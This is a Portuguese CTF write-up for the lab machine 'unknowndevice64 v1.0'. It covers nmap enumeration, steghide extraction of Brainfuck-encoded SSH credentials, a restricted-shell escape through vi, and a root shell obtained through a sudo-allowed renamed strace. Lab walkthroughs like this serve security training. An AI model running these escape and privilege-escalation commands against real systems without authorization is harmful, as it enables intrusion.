




# unknowndevice64 v1.0

## Identificação e Enumeração

O primeiro passo foi identiifcar o IP da máquina:
```
# netdiscover -i vboxnet0
```
  

Depois de encontrar o IP podemos fazer um port scan e descobrir os serviços que estão sendo executados:
```
# nmap -sV -sC -sT -p- 192.168.56.102
```
  

Como podemos ver, há um SSH na porta 1337 e um HTTP na porta 31337, este último sendo executado com python 2.7, abrindo o browser em http://192.168.56.102:31337. Vemos a página de um site e uma frase em que se destaca a palavra 'h1dd3n'
  

## Exploração

Olhando mais um pouco no código fonte, vemos um pedaço de código comentado com o nome de um arquivo  
  
Fazendo download desse arquivo a princípio não tem nada demais, apenas uma imagem normal, mas como o nome do arquivo diz (key_is_h1dd3n.jpg), achei que fosse alguma esteganografia e o software mais famoso pra isso é o steghide, então resolvi tentar extrair alguma informação da imagem passando a palavra h1dd3n como senha:
```
$ wget http://192.168.56.102:31337/key_is_h1dd3n.jpg
$ file key_is_h1dd3n.jpg
key_is_h1dd3n.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 300x300, components 1
$ steghide extract -sf key_is_h1dd3n.jpg -p "h1dd3n"
wrote extracted data to "h1dd3n.txt".
```
Foi extraído um arquivo chamado h1dd3n.txt, quando abrimos, temos um [brainfuck](https://pt.wikipedia.org/wiki/Brainfuck)
```
$ cat h1dd3n.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.
```  
Se jogarmos isso em algum decoder, a saída é: ud64:1M!#64@ud

Esse valor são as credenciais do SSH, então basta se conectar
```
$ ssh ud64@192.168.56.102 -p 1337
ud64@192.168.56.102's password: 1M!#64@ud
```
Depois de logado, temos um rbash que impede que executemos vários comandos, como ls, cd, cat. Um dos comandos que temos acesso é o 'vi' e por ele podemos ter uma shell mais completa diditando 'vi' e depois :!/bin/bash
Com essa shell é possível executar mais comandos e com o echo podemos ver que o valor da variável path:
```
$ echo $PATH
/home/ud64/prog
```
Para executar comandos de forma mais prática ao invés de escrever todo o caminho, podemos adicionar os diretórios /usr/bin e /bin à path
```
$ export PATH=/bin:/usr/bin:$PATH
```

## PrivEsc

Com a PATH setada e uma shell completa podemos dar um sudo -l e ver se existe algum SUID que execute como root
```
$ sudo -l
User ud64 may run the following commands on unknowndevice64_v1:
    (ALL) NOPASSWD: /usr/bin/sysud64
```

Temos o comando sysud64, se executarmos vemos que é o strace renomeado e tem algumas opções que podem ser passadas como parâmetros
```
$ sysud64 -h | less
```
Para nos tronarmos root, podemos executar o seguinte comando:
$ sudo sysud64 -o/dev/null /bin/bash
$ cat flag.txt